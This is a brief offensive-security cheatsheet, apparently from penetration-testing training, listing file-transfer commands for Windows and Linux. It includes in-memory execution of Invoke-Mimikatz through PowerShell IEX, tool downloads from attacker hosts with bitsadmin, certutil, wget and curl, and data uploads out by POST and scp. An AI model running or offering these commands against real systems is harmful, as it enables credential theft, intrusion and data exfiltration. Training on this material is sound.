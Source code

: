 # Cheatsheet



<table data-header-hidden><thead><tr><th width="402"></th><th></th></tr></thead><tbody><tr><td><strong>Command</strong></td><td><strong>Description</strong></td></tr><tr><td> <code>Invoke-WebRequest https://&#x3C;snip>/PowerView.ps1 -OutFile PowerView.ps1</code></td><td>Download a file with PowerShell</td></tr><tr><td><code>IEX (New-Object Net.WebClient).DownloadString('https://&#x3C;snip>/Invoke-Mimikatz.ps1')</code></td><td>Execute a file in memory using PowerShell</td></tr><tr><td><code>Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64</code></td><td>Upload a file with PowerShell</td></tr><tr><td><code>bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe</code></td><td>Download a file using Bitsadmin</td></tr><tr><td><code>certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe</code></td><td>Download a file using Certutil</td></tr><tr><td><code>wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh</code></td><td>Download a file using Wget</td></tr><tr><td><code>curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh</code></td><td>Download a file using cURL</td></tr><tr><td><code>php -r '$file = file_get_contents("https://&#x3C;snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'</code></td><td>Download a file using PHP</td></tr><tr><td><code>scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip</code></td><td>Upload a file using SCP</td></tr><tr><td><code>scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe</code></td><td>Download a file using SCP</td></tr><tr><td><code>Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"</code></td><td>Invoke-WebRequest using a Chrome User Agent</td></tr></tbody></table>

